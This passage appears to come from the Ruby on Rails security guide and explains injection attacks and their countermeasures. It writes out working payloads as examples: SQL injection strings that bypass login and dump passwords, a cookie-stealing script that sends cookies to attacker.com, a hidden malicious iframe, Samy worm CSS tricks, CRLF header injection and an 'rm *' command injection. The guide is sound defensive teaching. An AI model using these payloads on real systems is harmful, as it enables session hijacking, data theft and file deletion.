Don't be fooled by security by obfuscation and JavaScript security. Developer tools let you review and change every form's hidden fields. JavaScript can be used to validate user input data, but certainly not to prevent attackers from sending malicious requests with unexpected values. DevTools log every request and may repeat and change them. That is an easy way to bypass any JavaScript validations. And there are even client-side proxies that allow you to intercept any request and response from and to the Internet.
Injection
INFO: Injection is a class of attacks that introduce malicious code or parameters into a web application in order to run it within its security context. Prominent examples of injection are cross-site scripting (XSS) and SQL injection.
Injection is very tricky, because the same code or parameter can be malicious in one context, but totally harmless in another. A context can be a scripting, query, or programming language, the shell, or a Ruby/Rails method. The following sections will cover all important contexts where injection attacks may happen. The first section, however, covers an architectural decision in connection with Injection.
Permitted Lists Versus Restricted Lists
NOTE: When sanitizing, protecting, or verifying something, prefer permitted lists over restricted lists.
A restricted list can be a list of bad e-mail addresses, non-public actions or bad HTML tags. This is opposed to a permitted list which lists the good e-mail addresses, public actions, good HTML tags, and so on. Although sometimes it is not possible to create a permitted list (in a SPAM filter, for example), prefer to use permitted list approaches:
- Use
before_action except: [...]instead ofonly: [...]for security-related actions. This way you don't forget to enable security checks for newly added actions. - Allow
<strong>instead of removing<script>against Cross-Site Scripting (XSS). See below for details. - Don't try to correct user input using restricted lists:
- This will make the attack work:
"<sc<script>ript>".gsub("<script>", "") - But reject malformed input
- This will make the attack work:
Permitted lists are also a good approach against the human factor of forgetting something in the restricted list.
SQL Injection
INFO: Thanks to clever methods, this is hardly a problem in most Rails applications. However, this is a very devastating and common attack in web applications, so it is important to understand the problem.
Introduction
SQL injection attacks aim at influencing database queries by manipulating web application parameters. A popular goal of SQL injection attacks is to bypass authorization. Another goal is to carry out data manipulation or read arbitrary data. Here is an example of how not to use user input data in a query:
Project.where("name = '#{params[:name]}'")This could be in a search action and the user may enter a project's name that they want to find. If a malicious user enters ' OR 1) --, the resulting SQL query will be:
SELECT * FROM projects WHERE (name = '' OR 1) --')
The two dashes start a comment ignoring everything after it. So the query returns all records from the projects table including those blind to the user. This is because the condition is true for all records.
Bypassing Authorization
Usually a web application includes access control. The user enters their login credentials and the web application tries to find the matching record in the users table. The application grants access when it finds a record. However, an attacker may possibly bypass this check with SQL injection. The following shows a typical database query in Rails to find the first record in the users table which matches the login credentials parameters supplied by the user.
User.find_by("login = '#{params[:name]}' AND password = '#{params[:password]}'")If an attacker enters ' OR '1'='1 as the name, and ' OR '2'>'1 as the password, the resulting SQL query will be:
SELECT * FROM users WHERE login = '' OR '1'='1' AND password = '' OR '2'>'1' LIMIT 1
This will simply find the first record in the database and grant access to this user.
Unauthorized Reading
The UNION statement connects two SQL queries and returns the data in one set. An attacker can use it to read arbitrary data from the database. Let's take the example from above:
Project.where("name = '#{params[:name]}'")And now let's inject another query using the UNION statement:
') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --This will result in the following SQL query:
SELECT * FROM projects WHERE (name = '') UNION
SELECT id,login AS name,password AS description,1,1,1 FROM users --'
The result won't be a list of projects (because there is no project with an empty name), but a list of usernames and their password. So hopefully you securely hashed the passwords in the database! The only problem for the attacker is, that the number of columns has to be the same in both queries. That's why the second query includes a list of ones (1), which will be always the value 1, in order to match the number of columns in the first query.
Also, the second query renames some columns with the AS statement so that the Web application displays the values from the user table.
Countermeasures
Ruby on Rails has a built-in filter for special SQL characters, which will escape ' , " , NULL character, and line breaks. Using Model.find(id) or Model.find_by_something(something) automatically applies this countermeasure. But in SQL fragments, especially in conditions fragments (where("...")), the connection.execute() or Model.find_by_sql() methods, it has to be applied manually.
Instead of passing a string, you can use positional handlers to sanitize tainted strings like this:
Model.where("zip_code = ? AND quantity >= ?", entered_zip_code, entered_quantity).firstThe first parameter is an SQL fragment with question marks. The second and third parameter will replace the question marks with the value of the variables.
You can also use named handlers, the values will be taken from the hash used:
values = { zip: entered_zip_code, qty: entered_quantity }
Model.where("zip_code = :zip AND quantity >= :qty", values).firstAdditionally, you can split and chain conditionals valid for your use case:
Model.where(zip_code: entered_zip_code).where("quantity >= ?", entered_quantity).firstNote that the previously mentioned countermeasures are only available in model instances. You can
try sanitize_sql elsewhere. Make it a habit to think about the security consequences
when using an external string in SQL.
Cross-Site Scripting (XSS)
INFO: The most widespread, and one of the most devastating security vulnerabilities in web applications is XSS. This malicious attack injects client-side executable code. Rails provides helper methods to fend these attacks off.
Entry Points
An entry point is a vulnerable URL and its parameters where an attacker can start an attack.
The most common entry points are message posts, user comments, and guest books, but project titles, document names, and search result pages have also been vulnerable - just about everywhere where the user can input data. But the input does not necessarily have to come from input boxes on websites, it can be in any URL parameter - obvious, hidden or internal. Remember that the user may intercept any traffic. Applications or client-site proxies make it easy to change requests. There are also other attack vectors like banner advertisements.
XSS attacks work like this: An attacker injects some code, the web application saves it and displays it on a page, later presented to a victim. Most XSS examples simply display an alert box, but it is more powerful than that. XSS can steal the cookie, hijack the session, redirect the victim to a fake website, display advertisements for the benefit of the attacker, change elements on the website to get confidential information or install malicious software through security holes in the web browser.
During the second half of 2007, there were 88 vulnerabilities reported in Mozilla browsers, 22 in Safari, 18 in IE, and 12 in Opera. The Symantec Global Internet Security threat report also documented 239 browser plug-in vulnerabilities in the last six months of 2007. Mpack is a very active and up-to-date attack framework which exploits these vulnerabilities. For criminal hackers, it is very attractive to exploit an SQL injection vulnerability in a web application framework and insert malicious code in every textual table column. In April 2008 more than 510,000 sites were hacked like this, among them the British government, United Nations, and many more high-profile targets.
HTML/JavaScript Injection
The most common XSS language is of course the most popular client-side scripting language JavaScript, often in combination with HTML. Escaping user input is essential.
Here is the most straightforward test to check for XSS:
<script>alert('Hello');</script>
This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:
<img src="javascript:alert('Hello')">
<table background="javascript:alert('Hello')">
Cookie Theft
These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the document.cookie property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The document.cookie property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:
<script>document.write(document.cookie);</script>
For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
The log files on www.attacker.com will read like this:
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2You can mitigate these attacks (in the obvious way) by adding the httpOnly flag to cookies, so that document.cookie may not be read by JavaScript. HTTP only cookies can be used from IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4, and Chrome 1.0.154 onwards. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies will still be visible using Ajax, though.
Defacement
With web page defacement, an attacker can do a lot of things, for example, present false information or lure the victim to the attacker's website to steal the cookie, login credentials, or other sensitive data. The most popular way is to include code from external sources by iframes:
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This iframe is taken from an actual attack on legitimate Italian sites using the Mpack attack framework. Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.
A more specialized attack could overlap the entire website or display a login form, which looks the same as the site's original, but transmits the username and password to the attacker's site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one in its place, which redirects to a fake website.
Reflected injection attacks are those where the payload is not stored to present it to the victim later on, but is included in the URL. Especially search forms fail to escape the search string. The following link presented a page which stated that "George Bush appointed a 9 year old boy to be the chairperson...":
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
<script src=http://www.securitylab.ru/test/sc.js></script><!--Countermeasures
It is very important to filter malicious input, but it is also important to escape the output of the web application.
Especially for XSS, it is important to do permitted input filtering instead of restricted. Permitted list filtering states the values allowed as opposed to the values not allowed. Restricted lists are never complete.
Imagine a restricted list deletes "script" from the user input. Now the attacker injects "<scrscriptipt>", and after the filter, "<script>" remains. Earlier versions of Rails used a restricted list approach for the strip_tags(), strip_links(), and sanitize() methods. So this kind of injection was possible:
("some<<b>script>alert('hello')<</b>/script>")This returned "some<script>alert('hello')</script>", which makes an attack work. That's why a permitted list approach is better, using the updated Rails 2 method sanitize():
= %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: , attributes: %w(href title))This allows only the given tags and does a good job, even against all kinds of tricks and malformed tags.
Both Action View and Action Text build their sanitization helpers on top of the rails-html-sanitizer gem.
As a second step, it is good practice to escape all output of the application, especially when re-displaying user input, which hasn't been input-filtered (as in the search form example earlier on). Use html_escape() (or its alias h()) method to replace the HTML input characters &, ", <, and > by their uninterpreted representations in HTML (&, ", <, and >).
Obfuscation and Encoding Injection
Network traffic is mostly based on the limited Western alphabet, so new character encodings, such as Unicode, emerged, to transmit characters in other languages. But, this is also a threat to web applications, as malicious code can be hidden in different encodings that the web browser might be able to process, but the web application might not. Here is an attack vector in UTF-8 encoding:
<img src=javascript:a
lert('XSS')>
This example pops up a message box. It will be recognized by the above sanitize() filter, though. A great tool to obfuscate and encode strings, and thus "get to know your enemy", is the Hackvertor. Rails' sanitize() method does a good job to fend off encoding attacks.
Examples from the Underground
In order to understand today's attacks on web applications, it's best to take a look at some real-world attack vectors.
The following is an excerpt from the Js.Yamanner@m Yahoo! Mail worm. It appeared on June 11, 2006 and was the first webmail interface worm:
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
target=""onload="var http_request = false; var Email = '';
var IDList = ''; var CRumb = ''; function makeRequest(url, Func, Method,Param) { ...
The worms exploit a hole in Yahoo's HTML/JavaScript filter, which usually filters all targets and onload attributes from tags (because there can be JavaScript). The filter is applied only once, however, so the onload attribute with the worm code stays in place. This is a good example why restricted list filters are never complete and why it is hard to allow HTML/JavaScript in a web application.
Another proof-of-concept webmail worm is Nduja, a cross-domain worm for four Italian webmail services. Find more details on Rosario Valotta's paper. Both webmail worms have the goal to harvest email addresses, something a criminal hacker could make money with.
In December 2006, 34,000 actual usernames and passwords were stolen in a MySpace phishing attack. The idea of the attack was to create a profile page named "login_home_index_html", so the URL looked very convincing. Specially-crafted HTML and CSS were used to hide the genuine MySpace content from the page and instead display its own login form.
CSS Injection
INFO: CSS Injection is actually JavaScript injection, because some browsers (IE, some versions of Safari, and others) allow JavaScript in CSS. Think twice about allowing custom CSS in your web application.
CSS Injection is explained best by the well-known MySpace Samy worm. This worm automatically sent a friend request to Samy (the attacker) simply by visiting his profile. Within several hours he had over 1 million friend requests, which created so much traffic that MySpace went offline. The following is a technical explanation of that worm.
MySpace blocked many tags, but allowed CSS. So the worm's author put JavaScript into CSS like this:
<div style="background:url('javascript:alert(1)')">
So the payload is in the style attribute. But there are no quotes allowed in the payload, because single and double quotes have already been used. But JavaScript has a handy eval() function which executes any string as code.
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
The eval() function is a nightmare for restricted list input filters, as it allows the style attribute to hide the word "innerHTML":
alert(eval('document.body.inne' + 'rHTML'));
The next problem was MySpace filtering the word "javascript", so the author used "java<NEWLINE>script" to get around this:
<div id="mycode" expr="alert('hah!')" style="background:url('java↵script:eval(document.all.mycode.expr)')">
Another problem for the worm's author was the CSRF security tokens. Without them he couldn't send a friend request over POST. He got around it by sending a GET to the page right before adding a user and parsing the result for the CSRF token.
In the end, he got a 4 KB worm, which he injected into his profile page.
The moz-binding CSS property proved to be another way to introduce JavaScript in CSS in Gecko-based browsers (Firefox, for example).
Countermeasures
This example, again, showed that a restricted list filter is never complete. However, as custom CSS in web applications is a quite rare feature, it may be hard to find a good permitted CSS filter. If you want to allow custom colors or images, you can allow the user to choose them and build the CSS in the web application. Use Rails' sanitize() method as a model for a permitted CSS filter, if you really need one.
Textile Injection
If you want to provide text formatting other than HTML (due to security), use a mark-up language which is converted to HTML on the server-side. RedCloth is such a language for Ruby, but without precautions, it is also vulnerable to XSS.
For example, RedCloth translates _test_ to <em>test<em>, which makes the
text italic. However, RedCloth doesn’t filter unsafe html tags by default:
RedCloth.new("<script>alert(1)</script>").to_html
# => "<script>alert(1)</script>"Use the :filter_html option to remove HTML which was not created by the Textile processor.
RedCloth.new("<script>alert(1)</script>", [:filter_html]).to_html
# => "alert(1)"However, this does not filter all HTML, a few tags will be left (by design), for example <a>:
RedCloth.new("<a href='javascript:alert(1)'>hello</a>", [:filter_html]).to_html
# => "<p><a href="javascript:alert(1)">hello</a></p>"Countermeasures
It is recommended to use RedCloth in combination with a permitted input filter, as described in the countermeasures against XSS section.
Ajax Injection
NOTE: The same security precautions have to be taken for Ajax actions as for "normal" ones. There is at least one exception, however: The output has to be escaped in the controller already, if the action doesn't render a view.
If you use the in_place_editor plugin, or actions that return a string, rather than rendering a view, you have to escape the return value in the action. Otherwise, if the return value contains a XSS string, the malicious code will be executed upon return to the browser. Escape any input value using the h() method.
Command Line Injection
NOTE: Use user-supplied command line parameters with caution.
If your application has to execute commands in the underlying operating system, there are several methods in Ruby: system(command), exec(command), spawn(command) and `command`. You will have to be especially careful with these functions if the user may enter the whole command, or a part of it. This is because in most shells, you can execute another command at the end of the first one, concatenating them with a semicolon (;) or a vertical bar (|).
user_input = "hello; rm *"
system("/bin/echo #{user_input}")
# prints "hello", and deletes files in the current directoryA countermeasure is to use the system(command, parameters) method which passes command line parameters safely.
system("/bin/echo", "hello; rm *")
# prints "hello; rm *" and does not delete filesKernel#open's Vulnerability
Kernel#open executes OS command if the argument starts with a vertical bar (|).
open("| ls") { |file| file.read }
# returns file list as a String via `ls` commandCountermeasures are to use File.open, IO.open or URI#open instead. They don't execute an OS command.
File.open("| ls") { |file| file.read }
# doesn't execute `ls` command, just opens `| ls` file if it exists
IO.open(0) { |file| file.read }
# opens stdin. doesn't accept a String as the argument
require "open-uri"
URI("https://example.com").open { |file| file.read }
# opens the URI. {URI()} doesn't accept `| ls`Header Injection
WARNING: HTTP headers are dynamically generated and under certain circumstances user input may be injected. This can lead to false redirection, XSS, or HTTP response splitting.
HTTP request headers have a Referer, User-Agent (client software), and Cookie field, among others. Response headers for example have a status code, Cookie, and Location (redirection target URL) field. All of them are user-supplied and may be manipulated with more or less effort. Remember to escape these header fields, too. For example when you display the user agent in an administration area.
Besides that, it is important to know what you are doing when building response headers partly based on user input. For example you want to redirect the user back to a specific page. To do that you introduced a "referer" field in a form to redirect to the given address:
redirect_to params[:referer]What happens is that Rails puts the string into the Location header field and sends a 302 (redirect) status to the browser. The first thing a malicious user would do, is this:
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tldAnd due to a bug in (Ruby and) Rails up to version 2.1.2 (excluding it), a hacker may inject arbitrary header fields; for example like this:
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld%0d%0aX-Header:+Hi!
http://www.yourapplication.com/controller/action?referer=path/at/your/app%0d%0aLocation:+http://www.malicious.tldNote that %0d%0a is URL-encoded for \r\n which is a carriage-return and line-feed (CRLF) in Ruby. So the resulting HTTP header for the second example will be the following because the second Location header field overwrites the first.
HTTP/1.1 302 Moved Temporarily
(...)
Location: http://www.malicious.tld
So attack vectors for Header Injection are based on the injection of CRLF characters in a header field. And what could an attacker do with a false redirection? They could redirect to a phishing site that looks the same as yours, but ask to login again (and sends the login credentials to the attacker). Or they could install malicious software through browser security holes on that site. Rails 2.1.2 escapes these characters for the Location field in the redirect_to method. Make sure you do it yourself when you build other header fields with user input.
DNS Rebinding and Host Header Attacks
DNS rebinding is a method of manipulating resolution of domain names that is commonly used as a form of computer attack. DNS rebinding circumvents the same-origin policy by abusing the Domain Name System (DNS) instead. It rebinds a domain to a different IP address and then compromises the system by executing random code against your Rails app from the changed IP address.
It is recommended to use the ::ActionDispatch::HostAuthorization middleware to guard against DNS rebinding and other Host header attacks. It is enabled by default in the development environment, you have to activate it in production and other environments by setting the list of allowed hosts. You can also configure exceptions and set your own response app.
Rails.application.config.hosts << "product.com"
Rails.application.config. = {
# Exclude requests for the /healthcheck/ path from host checking
exclude: ->(request) { request.path.include?("healthcheck") },
# Add custom Rack application for the response
response_app: -> env do
[400, { "Content-Type" => "text/plain" }, ["Bad Request"]]
end
}You can read more about it in the ::ActionDispatch::HostAuthorization middleware documentation
Response Splitting
If Header Injection was possible, Response Splitting might be, too. In HTTP, the header block is followed by two CRLFs and the actual data (usually HTML). The idea of Response Splitting is to inject two CRLFs into a header field, followed by another response with malicious HTML. The response will be:
HTTP/1.1 302 Found [First standard 302 response]
Date: Tue, 12 Apr 2005 22:09:07 GMT
Location:Content-Type: text/html
HTTP/1.1 200 OK [Second New response created by attacker begins]
Content-Type: text/html
<html><font color=red>hey</font></html> [Arbitrary malicious input is
Keep-Alive: timeout=15, max=100 shown as the redirected page]
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
Under certain circumstances this would present the malicious HTML to the victim. However, this only seems to work with Keep-Alive connections (and many browsers are using one-time connections). But you can't rely on this. In any case this is a serious bug, and you should update your Rails to version 2.0.5 or 2.1.2 to eliminate Header Injection (and thus response splitting) risks.
Unsafe Query Generation
Due to the way Active Record interprets parameters in combination with the way
that Rack parses query parameters it was possible to issue unexpected database
queries with IS NULL where clauses. As a response to that security issue
(CVE-2012-2660,
CVE-2012-2694
and CVE-2013-0155)
deep_munge method was introduced as a solution to keep Rails secure by default.
Example of vulnerable code that could be used by attacker, if deep_munge
wasn't performed is:
unless params[:token].nil?
user = User.find_by_token(params[:token])
user.reset_password!
endWhen params[:token] is one of: [nil], [nil, nil, ...] or
['foo', nil] it will bypass the test for nil, but IS NULL or
IN ('foo', NULL) where clauses still will be added to the SQL query.
To keep Rails secure by default, deep_munge replaces some of the values with
nil. Below table shows what the parameters look like based on JSON sent in
request:
| JSON | Parameters |
|---|---|
{ "person": null } |
{ :person => nil } |
{ "person": [] } |
{ :person => [] } |
{ "person": [null] } |
{ :person => [] } |
{ "person": [null, null, ...] } |
{ :person => [] } |
{ "person": ["foo", null] } |
{ :person => ["foo"] } |
It is possible to return to old behavior and disable deep_munge configuring
your application if you are aware of the risk and know how to handle it:
config.action_dispatch.perform_deep_munge = falseHTTP Security Headers
To improve the security of your application, Rails can be configured to return HTTP security headers. Some headers are configured by default; others need to be explicitly configured.
Default Security Headers
By default Rails is configured to return the following response headers. Your application returns these headers for every HTTP response.
X-Frame-Options
The X-Frame-Options header indicates if a browser can render the page in a <frame>,
<iframe>, <embed> or <object> tag. This header is set to SAMEORIGIN by
default to allow framing on the same domain only. Set it to DENY to deny
framing at all, or remove this header completely if you want to allow framing on
all domains.
X-Content-Type-Options
The X-Content-Type-Options header is set to nosniff in Rails by default.
It stops the browser from guessing the MIME type of a file.
X-Permitted-Cross-Domain-Policies
This header is set to none in Rails by default. It disallows Adobe Flash and
PDF clients from embedding your page on other domains.
Referrer-Policy
The Referrer-Policy header is set to strict-origin-when-cross-origin in Rails by default.
For cross-origin requests, this only sends the origin in the Referer header. This
prevents leaks of private data that may be accessible from other parts of the
full URL, such as the path and query string.
Configuring the Default Headers
These headers are configured by default as follows:
config.action_dispatch.default_headers = {
"X-Frame-Options" => "SAMEORIGIN",
"X-Content-Type-Options" => "nosniff",
"X-Permitted-Cross-Domain-Policies" => "none",
"Referrer-Policy" => "strict-origin-when-cross-origin"
}You can override these or add extra headers in config/application.rb:
config.action_dispatch.default_headers["X-Frame-Options"] = "DENY"
config.action_dispatch.default_headers["Header-Name"] = "Value"Or you can remove them:
config.action_dispatch.default_headers.clearStrict-Transport-Security Header
The HTTP Strict-Transport-Security (HSTS) response header makes sure the
browser automatically upgrades to HTTPS for current and future connections.
The header is added to the response when enabling the force_ssl option:
config.force_ssl = trueContent-Security-Policy Header
To help protect against XSS and injection attacks, it is recommended to define a
Content-Security-Policy response header for your application. Rails
provides a DSL that allows you to configure the header.
Define the security policy in the appropriate initializer:
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy do |policy|
policy.default_src :self, :https
policy.font_src :self, :https, :data
policy.img_src :self, :https, :data
policy.object_src :none
policy.script_src :self, :https
policy.style_src :self, :https
# Specify URI for violation reports
policy.report_uri "/csp-violation-report-endpoint"
endThe globally configured policy can be overridden on a per-resource basis:
class PostsController < ApplicationController
content_security_policy do |policy|
policy.upgrade_insecure_requests true
policy.base_uri "https://www.example.com"
end
endOr it can be disabled:
class LegacyPagesController < ApplicationController
content_security_policy false, only: :index
endUse lambdas to inject per-request values, such as account subdomains in a multi-tenant application:
class PostsController < ApplicationController
content_security_policy do |policy|
policy.base_uri :self, -> { "https://#{current_user.domain}.example.com" }
end
endReporting Violations
Enable the report-uri directive to report violations to the specified URI:
Rails.application.config.content_security_policy do |policy|
policy.report_uri "/csp-violation-report-endpoint"
endWhen migrating legacy content, you might want to report violations without
enforcing the policy. Set the Content-Security-Policy-Report-Only
response header to only report violations:
Rails.application.config.content_security_policy_report_only = trueOr override it in a controller:
class PostsController < ApplicationController
content_security_policy_report_only only: :index
endAdding a Nonce
If you are considering 'unsafe-inline', consider using nonces instead. Nonces
provide a substantial improvement
over 'unsafe-inline' when implementing a Content Security Policy on top
of existing code.
# config/initializers/content_security_policy.rb
Rails.application.config.content_security_policy do |policy|
policy.script_src :self, :https
end
Rails.application.config.content_security_policy_nonce_generator = -> request { SecureRandom.base64(16) }There are a few tradeoffs to consider when configuring the nonce generator.
Using SecureRandom.base64(16) is a good default value, because it will
generate a new random nonce for each request. However, this method is
incompatible with conditional GET caching
because new nonces will result in new ETag values for every request. An
alternative to per-request random nonces would be to use the session id:
Rails.application.config.content_security_policy_nonce_generator = -> request { request.session.id.to_s }This generation method is compatible with ETags, however its security depends on the session id being sufficiently random and not being exposed in insecure cookies.
By default, nonces will be applied to script-src and style-src if a nonce
generator is defined. config.content_security_policy_nonce_directives can be
used to change which directives will use nonces:
Rails.application.config.content_security_policy_nonce_directives = %w(script-src)Once nonce generation is configured in an initializer, automatic nonce values
can be added to script tags by passing nonce: true as part of html_options:
<%= javascript_tag nonce: true do -%>
alert('Hello, World!');
<% end -%>
The same works with javascript_include_tag and the stylesheet_link_tag:
<%= javascript_include_tag "script", nonce: true %>
<%= stylesheet_link_tag "style.css", nonce: true %>
To automatically attach a nonce to javascript_tag, javascript_include_tag, and
stylesheet_link_tag if the corresponding directives are specified in config.content_security_policy_nonce_directives,
you can set config.content_security_policy_nonce_auto to true:
Rails.application.config.content_security_policy_nonce_auto = trueThis is especially useful for 3rd-party views when using nonce-based source expressions in your Content Security Policy.
NOTE: Be mindful of caching. Since the nonce is typically generated per request, enabling this may lead to cache fragmentation or stale content if your caching strategy doesn't account for dynamic nonces.
Use csp_meta_tag
helper to create a meta tag "csp-nonce" with the per-session nonce value
for allowing inline <script> tags.
<head>
<%= csp_meta_tag %>
</head>
This is used by the Rails UJS helper to create dynamically
loaded inline <script> elements.
Feature-Policy Header
NOTE: The Feature-Policy header has been renamed to Permissions-Policy.
The Permissions-Policy requires a different implementation and isn't
yet supported by all browsers. To avoid having to rename this
middleware in the future, we use the new name for the middleware but
keep the old header name and implementation for now.
To allow or block the use of browser features, you can define a Feature-Policy
response header for your application. Rails provides a DSL that allows you to
configure the header.
Define the policy in the appropriate initializer:
# config/initializers/permissions_policy.rb
Rails.application.config. do |policy|
policy.camera :none
policy.gyroscope :none
policy.microphone :none
policy.usb :none
policy.fullscreen :self
policy.payment :self, "https://secure.example.com"
endThe globally configured policy can be overridden on a per-resource basis:
class PagesController < ApplicationController
do |policy|
policy.geolocation "https://example.com"
end
endCross-Origin Resource Sharing
Browsers restrict cross-origin HTTP requests initiated from scripts. If you want to run Rails as an API, and run a frontend app on a separate domain, you need to enable Cross-Origin Resource Sharing (CORS).
You can use the Rack CORS middleware for
handling CORS. If you've generated your application with the --api option,
Rack CORS has probably already been configured and you can skip the following
steps.
To get started, add the rack-cors gem to your Gemfile:
gem "rack-cors"Next, add an initializer to configure the middleware:
# config/initializers/cors.rb
Rails.application.config.middleware.insert_before 0, Rack::Cors do
allow do
origins "example.com"
resource "*",
headers: :any,
methods: [:get, :post, :put, :patch, :delete, :, :head]
end
endIntranet and Admin Security
Intranet and administration interfaces are popular attack targets, because they allow privileged access. Although this would require several extra-security measures, the opposite is the case in the real world.
In 2007 there was the first tailor-made trojan which stole information from an Intranet, namely the "Monster for employers" website of Monster.com, an online recruitment web application. Tailor-made Trojans are very rare, so far, and the risk is quite low, but it is certainly a possibility and an example of how the security of the client host is important, too. However, the highest threat to Intranet and Admin applications are XSS and CSRF.
Cross-Site Scripting
If your application re-displays malicious user input from the extranet, the application will be vulnerable to XSS. User names, comments, spam reports, order addresses are just a few uncommon examples, where there can be XSS.
Having one single place in the admin interface or Intranet, where the input has not been sanitized, makes the entire application vulnerable. Possible exploits include stealing the privileged administrator's cookie, injecting an iframe to steal the administrator's password or installing malicious software through browser security holes to take over the administrator's computer.
Refer to the Injection section for countermeasures against XSS.
Cross-Site Request Forgery
Cross-Site Request Forgery (CSRF), also known as Cross-Site Reference Forgery (XSRF), is a gigantic attack method, it allows the attacker to do everything the administrator or Intranet user may do. As you have already seen above how CSRF works, here are a few examples of what attackers can do in the Intranet or admin interface.
A real-world example is a router reconfiguration by CSRF. The attackers sent a malicious e-mail, with CSRF in it, to Mexican users. The e-mail claimed there was an e-card waiting for the user, but it also contained an image tag that resulted in an HTTP-GET request to reconfigure the user's router (which is a popular model in Mexico). The request changed the DNS-settings so that requests to a Mexico-based banking site would be mapped to the attacker's site. Everyone who accessed the banking site through that router saw the attacker's fake website and had their credentials stolen.
Another example changed Google Adsense's e-mail address and password. If the victim was logged into Google Adsense, the administration interface for Google advertisement campaigns, an attacker could change the credentials of the victim.
Another popular attack is to spam your web application, your blog, or forum to propagate malicious XSS. Of course, the attacker has to know the URL structure, but most Rails URLs are quite straightforward or they will be easy to find out, if it is an open-source application's admin interface. The attacker may even do 1,000 lucky guesses by just including malicious IMG-tags which try every possible combination.
For countermeasures against CSRF in administration interfaces and Intranet applications, refer to the countermeasures in the CSRF section.
Additional Precautions
The common admin interface works like this: it's located at www.example.com/admin, may be accessed only if the admin flag is set in the User model, re-displays user input and allows the admin to delete/add/edit whatever data desired. Here are some thoughts about this:
It is very important to think about the worst case: What if someone really got hold of your cookies or user credentials. You could introduce roles for the admin interface to limit the possibilities of the attacker. Or how about special login credentials for the admin interface, other than the ones used for the public part of the application. Or a special password for very serious actions?
Does the admin really have to access the interface from everywhere in the world? Think about limiting the login to a bunch of source IP addresses. Examine request.remote_ip to find out about the user's IP address. This is not bullet-proof, but a great barrier. Remember that there might be a proxy in use, though.
Put the admin interface to a special subdomain such as admin.application.com and make it a separate application with its own user management. This makes stealing an admin cookie from the usual domain, www.application.com, impossible. This is because of the same origin policy in your browser: An injected (XSS) script on www.application.com may not read the cookie for admin.application.com and vice-versa.
Environmental Security
It is beyond the scope of this guide to inform you on how to secure your application code and environments. However, please secure your database configuration, e.g. config/database.yml, master key for credentials.yml, and other unencrypted secrets. You may want to further restrict access, using environment-specific versions of these files and any others that may contain sensitive information.
Custom Credentials
Rails stores secrets in config/credentials.yml.enc, which is encrypted and hence cannot be edited directly. Rails uses config/master.key or alternatively looks for the environment variable ENV["RAILS_MASTER_KEY"] to encrypt the credentials file. Because the credentials file is encrypted, it can be stored in version control, as long as the master key is kept safe.
By default, the credentials file contains the application's
secret_key_base. It can also be used to store other secrets such as access keys for external APIs.
To edit the credentials file, run bin/rails credentials:edit. This command will create the credentials file if it does not exist. Additionally, this command will create config/master.key if no master key is defined.
Secrets kept in the credentials file are accessible via Rails.application.credentials.
For example, with the following decrypted config/credentials.yml.enc:
secret_key_base: 3b7cd72...
some_api_key: SOMEKEY
system:
access_key_id: 1234AB
Rails.application.credentials.some_api_key returns "SOMEKEY". Rails.application.credentials.system.access_key_id returns "1234AB".
If you want an exception to be raised when some key is blank, you can use the bang version:
# When some_api_key is blank...
Rails.application.credentials.some_api_key! # => KeyError: :some_api_key is blankTIP: Learn more about credentials with bin/rails credentials:help.
WARNING: Keep your master key safe. Do not commit your master key.
Dependency Management and CVEs
We don’t bump dependencies just to encourage use of new versions, including for security issues. This is because application owners need to manually update their gems regardless of our efforts. Use bundle update --conservative gem_name to safely update vulnerable dependencies.
Additional Resources
The security landscape shifts and it is important to keep up to date, because missing a new vulnerability can be catastrophic. You can find additional resources about (Rails) security here:
- Subscribe to the Rails security mailing list.
- Mozilla's Web Security Guidelines - Recommendations on topics covering Content Security Policy, HTTP headers, Cookies, TLS configuration, etc.
- A good set of security resources, notably the Cheat Sheet Series, with for example the Cross-Site Scripting Cheat Sheet.